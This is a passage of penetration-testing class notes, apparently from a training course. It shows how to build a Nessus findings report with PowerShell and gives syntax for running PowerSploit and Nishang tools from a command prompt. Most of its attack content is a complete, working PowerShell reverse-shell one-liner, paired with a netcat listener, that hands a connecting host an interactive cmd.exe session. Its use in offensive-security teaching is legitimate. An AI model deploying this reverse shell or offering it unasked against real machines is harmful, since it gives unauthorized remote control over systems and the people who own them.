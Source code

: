  
ConvertTo-Html cmdlet and turn it in to an HTML report in list format:

Import-Csv C:\class_nessus.csv | where {"high","medium","low" -contains $_.risk} | select "Plugin ID", CVE, CVSS, Risk, Host, Protocol, Port, Name | ConvertTo-Html -As List > C:\report2.html





****************************
Reverseshell with PowerShell
****************************
nc -lvp 1234			(command prompt 1)


				(command prompt 2)
powershell -command "function ReverseShellClean {if ($client.Connected -eq $true) {$client.Close()};  if ($process.ExitCode -ne $null) {$process.Close()};  exit;  };$address = '127.0.0.1';  $port = '1234';$client = New-Object system.net.sockets.tcpclient; $client.connect($address,$port) ;$stream = $client.GetStream();$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize  ;$process = New-Object System.Diagnostics.Process  ;$process.StartInfo.FileName = 'C:\\windows\\system32\\cmd.exe'  ;$process.StartInfo.RedirectStandardInput = 1  ;$process.StartInfo.RedirectStandardOutput = 1;$process.StartInfo.UseShellExecute = 0  ;$process.Start()  ;$inputstream = $process.StandardInput  ;$outputstream = $process.StandardOutput  ;Start-Sleep 1  ;$encoding = new-object System.Text.AsciiEncoding  ;while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())};$stream.Write($encoding.GetBytes($out),0,$out.Length)  ;$out = $null; $done = $false; $testing = 0; ;while (-not $done) {if ($client.Connected -ne $true) {cleanup}  ;$pos = 0; $i = 1;  while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) { $read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos);  $pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}  ;if ($pos -gt 0){ $string = $encoding.GetString($networkbuffer,0,$pos);  $inputstream.write($string);  start-sleep 1;  if ($process.ExitCode -ne $null) {ReverseShellClean};else {  $out = $encoding.GetString($outputstream.Read()); while($outputstream.Peek() -ne -1){;  $out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}};  $stream.Write($encoding.GetBytes($out),0,$out.length);  $out = $null;  $string = $null}} else {ReverseShellClean}};"


####################################################
# Running Powershell From A Command Prompt         #
# Using Powersploit & Nishang			           #
####################################################

COMMAND & 1 PARAMATER SYNTAX:		
	powershell -command "& {&'some-command' someParam}"



MULTIPLE COMMAND & PARAMETER SYNTAX
	powershell -command "& {&'some-command' someParam}"; "& {&'some-command' -SpecificArg someParam}"



Tools to download to the web root (/var/www) of your StrategicSec-Ubuntu-VM:
https://github.com/mattifestation/PowerSploit.git
https://github.com/samratashok/nishang
